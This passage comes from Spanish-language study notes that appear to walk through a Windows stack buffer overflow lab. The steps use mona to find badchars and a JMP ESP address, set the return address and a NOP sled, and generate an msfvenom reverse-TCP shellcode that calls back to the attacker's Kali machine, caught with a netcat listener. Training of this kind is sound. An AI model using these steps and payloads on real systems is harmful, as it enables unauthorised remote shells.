 Vamos al kali y ejecutamos el exploit.py: python3 exploit.py

Ahora vuelve a crashear Immunity, y hay que apuntar el número ESP

Ejecutamos en Immunity el siguiente comando: !mona compare -f C:\Users\adrian\Desktop\bof\bytearray.bin -a Número_ESP

Repetimos este proceso hasta que ya no nos salgan más badchars

- --------------------------------------------------------------------------------------------------------------------------------------------

Abrimos el Immunity y ejecutamos el siguiente comando: !mona jmp -r esp -cpb "\x00"      (*) Si tenemos más badchars hay que añadirlos p.ej.  "\x00\x02"

Se abre una pestaña muy pequeña y la maximizamos y donde dice en rojo: Found a total of 1 pointer     Tenemos que copiar el número que hay arriba

Minimizamos y abrimos la ventana cuádruple, le damos al botón flecha derecha azul oscuro e introducimos ese número copiado

Se nos marca en azul una fila, copiamos el primer número del pointer que sale de la fila (por ejemplo es: 311712F3)

Editamos el exploit.py y en el parámetro retn, sustituimos las BBBB por el número del pointer 311712F3, pero hay que ponerlo de la siguiente manera: ¨\xf3\x12\x17\x31¨

En la parámetro de padding lo dejamos así: ¨\x90¨ * 16

Guardamos el exploit.py

- --------------------------------------------------------------------------------------------------------------------------------------------

Generamos el shellcode con msfvenom: msfvenom -p windows/shell_reverse_tcp LHOST=IP_KALI_LINUX_ATACANTE LPORT=4444 EXITFUNC=thread -b "\x00" -f c

(*) Si teníamos más badchars hay que especificarlos en el parámetro -b  (p.ej.  -b "\x00\x02")

Copiamos el shellcode desde las ¨¨ hasta menos el ;

Editamos el exploit.py y editamos el parámetro payload (tiene que estar entre paréntesis)          payload = (¨SHELLCODE COPIADO¨)

También editamos la IP y el puerto que teníamos puesta la de nuestra máquina Windows y ponemos la de la máquina víctima.

Guardamos

- --------------------------------------------------------------------------------------------------------------------------------------------

En el Kali, en una nueva terminal, nos ponemos en escucha con netcat por el puerto configurado en msfvenom (en este ejemplo es 4444): nc -nlvp 4444

Ejecutamos el exploit: python3 exploit.py

Recibimos la reverseshell

- --------------------------------------------------------------------------------------------------------------------------------------------

Si no tenemos conexión directa y está a través de máquinas intermedias:

![Untitled](Buffer%20Overflow%203059001c79d047a2a3820f32ebfa89b3/Untitled%202.png)